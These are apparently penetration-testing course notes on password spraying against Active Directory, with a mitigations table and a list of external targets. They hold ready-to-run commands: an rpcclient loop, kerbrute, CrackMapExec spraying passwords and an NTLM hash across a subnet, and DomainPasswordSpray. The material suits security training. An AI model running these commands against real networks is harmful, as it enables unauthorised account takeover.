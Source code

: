 # Internal Password Spraying - from Linux
## Internal Password Spraying from a Linux Host
- `Rpcclient` is an excellent option for performing this attack from Linux. An important consideration is that a valid login is not immediately apparent with `rpcclient`, with the response `Authority Name` indicating a successful login. 
- We can filter out invalid login attempts by `grepping` for `Authority` in the response. The following Bash one-liner (adapted from [here](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) can be used to perform the attack.
#### Using a Bash one-liner for the Attack
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### Using Kerbrute for the Attack
```shell-session
AnuragTaparia@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
#### Using CrackMapExec & Filtering Logon Failures
```shell-session
AnuragTaparia@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
#### Validating the Credentials with CrackMapExec
```shell-session
AnuragTaparia@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

## Local Administrator Password Reuse
- Internal password spraying is not only possible with domain user accounts. If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network
-  Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts.
- CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.
- The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.
#### Local Admin Spraying with CrackMapExec
```shell-session
AnuragTaparia@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
- This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth. It is always worth looking for this issue during penetration tests, even if it is not part of our path to compromise the domain, as it is a common issue and should be highlighted for our clients.

# Internal Password Spraying - from Windows
- From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out. 
- Like how we ran the spraying attack from our Linux host, we can also supply a user list to the tool if we are on a Windows host but not authenticated to the domain.
- In this case we will assume  the host is domain-joined, we will skip the `-UserList` flag and let the tool generate a list for us. We'll supply the `Password` flag and one single password and then use the `-OutFile` flag to write our output to a file for later use.
#### Using DomainPasswordSpray.ps1
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
## Mitigations
Several steps can be taken to mitigate the risk of password spraying attacks. While no single solution will entirely prevent the attack, a defense-in-depth approach will render password spraying attacks extremely difficult.

| Technique                                    | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| -------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Multi-factor Authentication`                | Multi-factor authentication can greatly reduce the risk of password spraying attacks. Many types of multi-factor authentication exist, such as push notifications to a mobile device, a rotating One Time Password (OTP) such as Google Authenticator, RSA key, or text message confirmations. While this may prevent an attacker from gaining access to an account, certain multi-factor implementations still disclose if the username/password combination is valid. It may be possible to reuse this credential against other exposed services or applications. It is important to implement multi-factor solutions with all external portals. |
| `Restricting Access`                         | It is often possible to log into applications with any domain user account, even if the user does not need to access it as part of their role. In line with the principle of least privilege, access to the application should be restricted to those who require it.                                                                                                                                                                                                                                                                                                                                                                              |
| `Reducing Impact of Successful Exploitation` | A quick win is to ensure that privileged users have a separate account for any administrative activities. Application-specific permission levels should also be implemented if possible. Network segmentation is also recommended because if an attacker is isolated to a compromised subnet, this may slow down or entirely stop lateral movement and further compromise.                                                                                                                                                                                                                                                                         |
| `Password Hygiene`                           | Educating users on selecting difficult to guess passwords such as passphrases can significantly reduce the efficacy of a password spraying attack. Also, using a password filter to restrict common dictionary words, names of months and seasons, and variations on the company's name will make it quite difficult for an attacker to choose a valid password for spraying attempts.                                                                                                                                                                                                                                                             |
## External Password Spraying
Some common targets include:

- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication
